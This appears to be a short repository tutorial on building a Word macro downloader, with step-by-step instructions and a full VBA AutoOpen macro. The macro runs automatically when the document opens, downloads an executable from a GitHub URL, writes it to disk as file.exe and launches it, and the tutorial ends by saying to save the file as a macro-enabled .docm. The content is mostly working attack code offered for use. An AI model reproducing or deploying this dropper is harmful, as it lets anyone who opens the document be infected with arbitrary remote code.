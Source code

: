 # Creating Word Macros to AutoRun Downloader via Word Document

https://www.sciencedirect.com/science/article/pii/S1353485817300491
https://screwnomore.wordpress.com/2015/11/06/creating-malicious-word-macros-tutorial-autorun-stub-via-word-document/
https://www.vba-market.com/2018/01/02/vba-run-time-error-2146697208-800c0008-the-download-of-the-specified-resource-has-failed/

Alt+F11 in MS Word or

![](https://i.imgur.com/NmBdUZn.png)

![](https://i.imgur.com/nvvcP5z.png)

Then Double click on ThisDocument

![](https://i.imgur.com/28Hk2dn.png)

Paste this code into the field that appears

```
Sub AutoOpen()

Dim xHttp: Set xHttp = CreateObject("MSXML2.ServerXMLHTTP.3.0")
Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
xHttp.Open "GET", "https://github.com/NotSurprised/MacroDownloader/raw/master/HackMessage.exe", False
xHttp.Send

With bStrm
 .Type = 1 '//binary
 .Open
 .write xHttp.responseBody
 .savetofile "file.exe", 2 '//overwrite
End With

Shell ("file.exe")

End Sub
```

Now just save the file as filename.docm